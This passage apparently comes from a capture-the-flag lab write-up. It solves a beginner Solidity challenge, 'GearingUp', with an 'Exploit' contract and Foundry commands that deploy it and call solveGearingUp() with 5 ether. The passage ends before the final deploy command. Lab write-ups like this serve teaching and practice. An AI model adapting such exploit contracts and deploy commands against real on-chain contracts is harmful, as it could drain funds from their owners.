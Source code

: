 ```solidity
        GU.withdrawReward();
        GU.completedGearingUp();
    }

    receive() external payable { }

}
```
&nbsp;  
To deploy the exploit, we can use this command below on the root of your project folder. &nbsp;  
&nbsp;  

```bash
forge create src/gearing-up/Exploit.sol:Exploit -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR 
```
&nbsp;  
You can adjust the command to your needs, by doing this, we are deploying our contract to the network. You will see *Deployer*, *Deployed to*, and *Transaction Hash*, your contract is now deployed with an address of *Deployed To*. To finish up and solve the lab, let's call our *solveGearingUp()*. &nbsp;  
&nbsp;  

```bash
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "solveGearingUp()" --value 5ether
```
&nbsp;  
Here is another version of the Exploit contract, this one will require you to include the Ether on the deployment instead when calling them, like the last version of the contract. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Setup.sol";
import "./GearingUp.sol";

contract Exploit{
    Setup public setup;
    GearingUp public immutable GU;

    constructor(address _setup) payable {
        require(msg.value == 5 ether);
        setup = Setup(_setup);
        GU = GearingUp(setup.GU());
    }

    function solveGearingUp() public {
        GU.callThis();
        GU.sendMoneyHere{value: msg.value}();
        GU.sendSomeData("GearNumber1", 687221, 0x1a2b3c4d, address(this));
        GU.withdrawReward();
        GU.completedGearingUp();
    }

    receive() external payable { }

}
```
&nbsp;  
To deploy this version of the contract, we need to adjust our command to be like this one below. &nbsp;  
&nbsp;  
